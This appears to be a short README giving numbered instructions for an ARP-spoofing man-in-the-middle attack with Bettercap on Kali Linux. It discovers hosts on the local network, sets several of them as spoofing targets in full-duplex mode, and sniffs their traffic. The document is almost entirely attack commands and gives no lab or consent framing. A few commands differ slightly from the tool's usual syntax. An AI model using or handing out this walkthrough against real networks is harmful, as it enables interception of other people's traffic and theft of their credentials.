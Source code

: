 # INSTRUCTIONS:
1. Open a terminal on kali linux and install Bettercap tool

2. For installation run
&emsp;&emsp;&emsp;$ sudo su <br>
&emsp;&emsp;&emsp;$ apt-get install bettercap

3. Or clone the git repository of Bettercap from github to your kali machine

4. Run the following commands for the target ip addresses on the network, <br>
&emsp;&emsp;&emsp;Open a terminal <br>
&emsp;&emsp;&emsp;$ sudo bettercap <br>
&emsp;&emsp;&emsp;$ net.probe on  (To discover the targets) <br>
&emsp;&emsp;&emsp;$ net.recon on (To discover more targets on the network) <br>
&emsp;&emsp;&emsp;$ net.show (To display target ip addresses) <br>
&emsp;&emsp;&emsp;Now we can see all the ip addresses in our network

5. Now set the fullduplex mode to true  <br>
&emsp;&emsp;&emsp;$ set arp.spoof.fullduplex true

6. Then give the targets by seperating with commas <br>
&emsp;&emsp;&emsp;$ set arp.spoof.targets ip1,ip2,ip3....

7. Now run the following commands to start the attack <br>
&emsp;&emsp;&emsp;$ arp.spoof.on <br>
&emsp;&emsp;&emsp;$ net.sniff.on

8. Now check the attack by using any browser, if the bettercap is capturing the packets then the attack is working properly.

9. To exit the attack run
&emsp;&emsp;&emsp;$ exit

10. That's it, you did it.
